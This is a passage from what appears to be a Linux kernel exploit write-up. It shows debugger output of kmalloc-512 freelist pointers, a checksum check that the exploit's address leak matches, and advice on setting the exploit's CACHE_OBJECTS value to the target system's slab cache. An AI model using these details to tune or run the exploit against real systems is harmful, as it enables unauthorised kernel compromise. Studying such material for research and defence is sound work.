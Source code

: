 ```
Freelist pointer: 0xffff88800a6d6400
Freelist pointer: 0xffff88800a6d6000
Freelist pointer: 0xffff88800a6d7200
Freelist pointer: 0xffff88800a6d7a00
Freelist pointer: 0xffff88800a6d6a00
Freelist pointer: 0xffff88800a6d7000
Freelist pointer: 0xffff88800a6d6e00
Freelist pointer: 0xffff88800a6d7c00
Freelist pointer: 0xffff88800a6d7400
Freelist pointer: 0xffff88800a6d6c00
Freelist pointer: 0xffff88800a6d7e00
Freelist pointer: 0xffff88800a6d7600
Freelist pointer: 0xffff88800a6d6800
Freelist count: 16
(gdb)
$ cat debugger_output.txt | grep "Freelist pointer" | awk '{print $3}' | sort -b > debugger_output_filtered_sorted.txt 
$ md5sum debugger_output_filtered_sorted.txt exploit_output_filtered_sorted.txt 
5380d41e3c514335a06f86e7dd30f396  debugger_output_filtered_sorted.txt
5380d41e3c514335a06f86e7dd30f396  exploit_output_filtered_sorted.txt
$
```

The proof of concept is reliable, and we did not observe any side effects during our experiments. To test the proof of concept, run them in a vulnerable kernel. There are some runtime parameters that the proof of concept depends on and they might change depending on the system configuration. It has been tested on a virtual machine running Alma Linux 9 on VMware Workstation with 4 and 8 CPUs and 2 GB of RAM. As an example, the number of objects in the `kmalloc-512` cache changes from 16 to 32 in a system with 4 to 8 CPUs. The proof of concept configuration `CACHE_OBJECTS` needs to have the exact number of objects of the target cache (`kmalloc-512`).

```
$ cat exploit.c | grep "define CACHE_OBJECTS"
#define CACHE_OBJECTS 16
$ 
```

System with 4 CPUs:

```
$ sudo ./slabinfo -r "^kmalloc-512$"

Slabcache: kmalloc-512      Aliases:  0 Order :  1 Objects: 1364

Sizes (bytes)     Slabs              Debug                Memory
------------------------------------------------------------------------
Object :     512  Total  :      91   Sanity Checks : Off  Total:  745472
SlabObj:     512  Full   :      49   Redzoning     : Off  Used :  698368
SlabSiz:    8192  Partial:      22   Poisoning     : Off  Loss :   47104
Loss   :       0  CpuSlab:      20   Tracking      : Off  Lalig:       0
Align  :     512  Objects:      16   Tracing       : Off  Lpadd:       0

kmalloc-512 has no kmem_cache operations

kmalloc-512: Kernel object allocation
-----------------------------------------------------------------------
No Data

kmalloc-512: Kernel object freeing
------------------------------------------------------------------------
No Data

kmalloc-512: No NUMA information available.
$
```
